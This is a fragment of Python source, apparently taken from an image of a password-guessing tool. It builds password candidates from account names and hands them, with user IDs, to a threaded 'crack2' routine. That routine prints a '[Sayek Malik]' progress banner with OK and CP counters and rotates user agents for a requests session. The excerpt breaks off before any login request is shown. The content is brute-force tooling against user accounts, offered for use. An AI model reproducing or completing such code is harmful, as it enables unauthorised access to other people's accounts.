 			frs = nmf.split(' ')[0]

			pwv = []

			if len(nmf)<6:

				if len(frs)<3:

					pass

				else:

					pwv.append(nmf)

			else:

				if len(frs)<3:

					pwv.append(nmf)

				else:

					pwv.append(nmf)

			if 'api' in method:

				pool.submit(crack2,idf,pwv)

			else:

				pool.submit(crack2,idf,pwv)

	print('')

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	exitss = input(x+'\33[1;96m Want to Exit (y/t) : ')

	if exitss in ['y','Y']:

		exit()

	else:

		exit()

def crack2(idf,pwv):

	global loop,ok,cp

	bi = random.choice([u,k,kk,b,h,hh])

	pers = loop*100/len(id2)

	fff = '%'

	print('\r%s [Sayek Malik] %s/%s  OK*%s | CP*%s => %s%s%s'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x), end=' ');sys.stdout.flush()

	ua = random.choice(ugen).replace('\n','')

	ses = requests.Session()

	for pw in pwv:
